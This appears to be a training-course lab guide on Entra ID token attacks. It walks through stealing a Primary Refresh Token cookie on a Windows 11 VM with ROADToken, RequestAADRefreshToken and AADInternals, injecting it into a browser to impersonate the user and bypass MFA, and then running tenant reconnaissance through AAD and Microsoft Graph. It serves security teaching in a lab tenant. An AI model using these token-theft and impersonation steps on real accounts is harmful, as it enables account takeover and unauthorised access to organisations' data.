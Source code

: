# Lab 3 - Token Attacks

### Prepare a victim user with high privileges:

1. RDP and login to the Win11 VM using the user `user1@YOURDOMAIN.onmicrosoft.com`
2. run `dsregcmd /status` and make sure you don't have "invalid".. fields, and that you see `AzureAdPrt : YES`
   ![prt](prtexists.png)

3. Make sure you are verified:
   1. open Edge and make sure you have your profile logged in
   2. go to Start -> Account Info and make sure you don't have any warning about not being verified, if you have then verify yourself.
      ![verify](verifyAccount.png)

4. if there's still an issue, restart the vm and login again

#

# Attacks

From this point on you act as the adversary, without knowing the Entra / AD Creds, you have code execution as Administrator on the Win 11 VM

## 1. Steal-the-PRT-Cookie (a.k.a as "Pass-the-PRT" attack)

**Notes:** 
- This method will bypass MFA only if the user has authenticated using MFA in its Windows
- PRT Cookie can only be used once and its TTL is short

**Prep:**
Download from inside the Win11 VM [ROADToken.exe](https://github.com/shackcrack007/hybrid-attacks-course-template/raw/refs/heads/main/labs%20(for%20course%20sessions,%20not%20part%20of%20setup)/lab-3-tokens/ROADToken.exe)

#### Option 1: Steal PRT Cookie using roadrecon tool

Use BrowserCore.exe to request a new PRT cookie with the current existing authentication context:

```powershell
# Get the nonce first
roadrecon auth --prt-init

# Get a new PRT Cookie
.\ROADtoken.exe <nonce>
```
Example: 
![roadtoken](roadtoken.png)


#### Option 2: Steal PRT Cookie using RequestAADRefreshToken.exe tool

Uses the MicrosoftAccountTokenProvider DLL to request a new PRT cookie.
Download and Run RequestAADRefreshToken.exe from this folder (directly from inside the VM), it will save the output on disk as well as print the tokens to the console.

**Prep:** Download from inside the Win11 VM [RequestAADRefreshToken.exe](https://github.com/shackcrack007/hybrid-attacks-course-template/raw/refs/heads/main/labs%20(for%20course%20sessions,%20not%20part%20of%20setup)/lab-3-tokens/RequestAADRefreshToken.exe)
```
Requesting cookies for the following URIs: https://login.microsoftonline.com/
PID  : 37808

Uri: https://login.microsoftonline.com/
    Name      : x-ms-RefreshTokenCredential
    Flags     : 8256
    Data      : <...snip JWT...>; path=/; domain=login.microsoftonline.com; secure; httponly
    P3PHeader : CP="CAO DSP COR ADMa DEV CONo TELo CUR PSA PSD TAI IVDo OUR SAMi BUS DEM NAV STA UNI COM INT PHY ONL FIN PUR LOCi CNT"
```

#### Option 3: Steal PRT Cookie using AADInternals tool

Use BrowserCore.exe to request a new PRT cookie with the current existing authentication context:

```powershell
Import-Module AADInternals -RequiredVersion "0.9.4"

# Get the PRToken
Get-AADIntUserPRTToken
```

### Once PRT Cookie is in your possession:

It's time to steal that user identity:

1. In incognito -> Clear your browser cookies and go to https://myapps.microsoft.com
2. F12 (Chrome dev tools) -> Application -> Cookies
3. Delete ALL cookies and then add one named `x-ms-RefreshTokenCredential` and set its value to the JSON Web Token (JWT) in the `Data` field from RequestAADRefreshToken.exe output
4. Refresh the page (or visit https://myapps.microsoft.com again) and you'll be logged it

- if it asks for a password, it means the PRT in the victim computer is invalid: you should restart and re-login as `user1@YOURDOMAIN.onmicrosoft.com` and make sure you're authenticated to Windows properly (you account is active)
**See demo video [here](stealPrtCookie.mp4)**

# Next Step - Reconnaissance

```powershell
Import-Module AADInternals -RequiredVersion "0.9.4"
$prtToken = Get-AADIntUserPRTToken # get a new PRT Cookie if you used it already

# using the new PRT Cookie, get an access token
# method 1:
roadtx browserprtauth --prt-cookie $prtToken # this will automatically get new access token

# method 2:
$prtToken = Get-AADIntUserPRTToken
roadrecon auth -r aadgraph -c "1950a258-227b-4e31-a9cf-717495945fc2" --prt-cookie $prtToken

# method 3:
$prtToken = Get-AADIntUserPRTToken
$at = Get-Get-AADIntAccessTokenForAADGraph -PRTToken $prtToken
roadrecon auth --access-token $at # AT for aadgraph is needed

# Once you got an access token, look at it
type .roadtools_auth
type .roadtools_auth | roadtx describe

# start the recon on the tenant
roadrecon gather

roadrecon gui


# more info: search for the client_id here to see to which app (==client) we used to ask AT for: https://github.com/dirkjanm/ROADtools/blob/master/roadtx/roadtools/roadtx/firstpartyscopes.json

```

#### Continue your exploration via API...

You can start with:

```powershell
$prtToken = Get-AADIntUserPRTToken
$at = Get-AADIntAccessTokenForMSGraph -PRTToken $prtToken
$secureAt = ConvertTo-SecureString -String $at -AsPlainText -Force
Connect-MgGraph -AccessToken $secureAt
Get-MgUser

# Or via AAD Graph:
$client_id = "1b730954-1685-4b74-9bfd-dac224a7b894"
$prtToken = Get-AADIntUserPRTToken
$tenantId = "YOUR_TENANT_ID"
$at = Get-AADIntAccessTokenForAADGraph -PRTToken $prtToken
Connect-AzureAD -AadAccessToken $at -TenantId $tenantId -AccountId "1b730954-1685-4b74-9bfd-dac224a7b894" # "Azure Active Directory PowerShell" app id, see here for more https://github.com/dirkjanm/ROADtools/blob/master/roadtx/roadtools/roadtx/firstpartyscopes.json

Get-AzureADUser
```
### Feeling comfortable? go to the next lab!